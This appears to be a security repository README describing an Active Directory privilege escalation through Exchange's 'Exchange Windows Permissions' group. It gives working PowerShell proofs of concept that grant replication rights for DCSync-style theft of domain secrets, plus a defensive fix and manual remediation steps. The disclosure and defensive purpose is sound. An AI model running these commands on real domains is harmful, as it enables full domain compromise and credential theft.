 # Exchange-AD-Privesc

This repository will provide a few techniques and scripts regarding the impact of Microsoft Exchange deployment on Active Directory security.

## General considerations

For pentesters looking to take control of an AD domain, Exchange is a valid intermediary target. The servers are much less secured than domain controllers by default and the control groups are distinct in the usual permissions models, which provides numerous alternative targets.
They are also more difficult to migrate and business critical, so organizations often adopt a slower migration process for Exchange than for AD and do not specifically harden the servers.

Exchange deployment on an Active Directory domain is an interesting case. Many attributes and classes are added to the schema, security groups are created and DACL on some AD objects are heavily modified. 

Basically you can select among 3 permissions models:

* RBAC Split (most common)
* Shared permissions (default)
* AD Split

Particularly, DACLs for RBAC Split and Shared models are enumerated here: https://technet.microsoft.com/en-us/library/ee681663(v=exchg.150).aspx .


High value targets:

* **Exchange Trusted Subsystem** and **Exchange Windows Permissions** groups, which are trustees for many ACE added during deployment on AD objects.
* Exchange servers: they are members of **Exchange Trusted Subsystem** and **Exchange Windows Permissions** groups. They can be compromised using many more techniques than domain controllers: local administrators domain accounts, Kerberos delegation, SMB relay, RODC replication, etc. The usual stuff.
* Organization admins: they are part of the local administrators group on Exchange servers. They also have full control on the OU containing the Exchange security groups. They can launch service/psexec/runas/... under computer identity/NetworkService/LocalSystem to control **Exchange Trusted Subsystem** and **Exchange Windows Permissions** SIDs.

## 1. Domain object DACL privilege escalation

A privilege escalation is possible from the **Exchange Windows permissions** (EWP) security group to compromise the entire prepared Active Directory domain.

DISCLAIMER: This has been responsibly disclosed to MSRC in October 2017 and after a few back and forth emails, they decided it was working as intended and would not fix it.

* Description of the issue

When preparing Exchange 2010/2013/2016 installation in shared permissions (default) or RBAC split permissions, some ACEs are positioned on the domain object for the **Exchange Windows Permissions** security group.
This happens during the "Setup /PrepareDomain" command.

The two following ACEs on the domain object are missing the INHERIT_ONLY_ACE bit in the Flags field:


| Account | ACE type | Inheritance | Permissions | On property/ Applies to | Comments |
| ------- | -------- | ----------- | ----------- | ----------------------- | -------- |
| Exchange Windows Permissions | Allow ACE | All | WriteDACL | / user | |
| Exchange Windows Permissions | Allow ACE | All | WriteDACL | / inetOrgPerson | |


* Technical consequence

The Allow permission to WriteDACL is granted to the Trustee on the domain object itself and not only on its user/inetOrgPerson descendants, effectively giving complete control to anyone with the **Exchange Windows Permissions** SID in its token.

* Expected behavior

The Allow permission to WriteDACL should only be given on child objects matching the INHERITED_OBJECT_TYPE Guid. It is supposed to only apply to user or inetOrgPerson classes.
This is also incoherent with the other INHERITED_OBJECT_TYPE ACEs on the domain object for the same Trustee, which all have the INHERIT_ONLY_ACE bit in the Flags field.


* Security Consequence

A privilege escalation is possible from the **Exchange Windows permissions** (EWP) security group to compromise the entire prepared Active Directory domain. Just set the Ds-Replication-Get-Changes-All extended right on the domain object. This is enough to use a DRSUAPI replication tool ala DCSync to get all the domain secrets (Kerberos keys, hashes, etc.).

You can control the SID of the EWP group from **Organization management**, from **Account operators** or from any Exchange server.
Interestingly, the RBAC system is proxified through EWP so a privilege escalation is possible from the *Active Directory Permissions* RBAC role to compromise the entire prepared Active Directory domain.


* Proof of concept 1: Set-Acl (or with DSA console)

From an **Organization Management** member account, add yourself to **Exchange Windows Permissions**.
This is possible by default (see the above technet page).

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members $user
```

RELOG to update groups in your token then give yourself Ds-Replication-Get-Changes-All extended right on the domain object.

```
$acl = get-acl "ad:DC=test,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=test,DC=com"
```


* Proof of concept 2: RBAC Add-ADPermission

The following Powershell code, executed by a user account with the RBAC role *Active Directory Permissions*, sets the Ds-Replication-Get-Changes-All extended right on the domain object.

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
Add-ADPermission "DC=test,DC=local" -User $id.Name -ExtendedRights Ds-Replication-Get-Changes-All
```

* Workaround fix

Use the Fix-DomainObjectDACL.ps1 Powershell script in this repository. Read it, test it, use it at your own risk.

By default, it checks the two faulty ACE, this can be done by any user. Use with -Fix switch with Domain Admins privileges to set the inherit_only missing flags.


Another option is doing it manually with LDP. Bind as a Domain Admin account with the usual precautions, as you will change the domain object DACL.
Locate the 2 faulty ACE in the DACL of the domain object: you can sort by Trustee to see Exchange Windows Permissions, there will only be 2 ACE with "Write DACL,..." Rights.
Check the 'Inherit only' box in their ACE flags field. 


